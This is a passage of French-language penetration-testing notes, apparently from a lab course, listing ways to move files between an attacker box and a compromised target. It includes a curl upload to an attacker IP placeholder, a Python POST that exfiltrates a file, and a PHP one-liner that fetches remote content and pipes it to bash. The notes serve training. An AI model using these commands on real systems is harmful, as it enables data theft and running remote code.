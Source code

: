 ```bash
curl -X POST https://<AttaquantIP/upload -F 'files=@<FilePath>' -F 'files=<FilePath>' --insecure

```
* autre méthode http server
```bash
python3 -m http.server
# ou
python2.7 -m SimpleHTTPServer
# ou 
php -S 0.0.0.0:<Port>
# ou 
ruby -run -ehttpd . -p<Port>

# Download the File from the Target Machine onto the Pwnbox
wget <TargetIP>:<Port>/<FilePath>
```

---

## File Transfer with code Methods
###### Telecharger un fichier en utilisant un langage de programmation

```bash
# python2
python2.7 -c 'import urllib;urllib.urlretrieve ("<URL>", "<OutputName>")'
# python 3
python3 -c 'import urllib.request;urllib.request.urlretrieve("<URL>", "<OutPutName>")'

# php file_get_contents
php -r '$file = file_get_contents("<URL>"); file_put_contents("<OutputName>",$file);'
# php fopen
php -r 'const BUFFER = 1024; $fremote = 
fopen("<URLPATH>", "rb"); $flocal = fopen("<OUTPUT>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
# php file pipe to bash ( exécuté en bash )
php -r '$lines = @file("<URLPATH>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

# Ruby
ruby -e 'require "net/http"; File.write("<OUTPUT>", Net::HTTP.get(URI.parse("<URL>")))'

#Perl
perl -e 'use LWP::Simple; getstore("<URL>", "<OUTPUT>");'

# use ( VBScript or Js ) + cscript 
```


###### Upload file 
```bash
# on listenner
python3 -m uploadserver 

# on uploader
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/upload",files={"files":open("<FilePath>","rb")})'
```
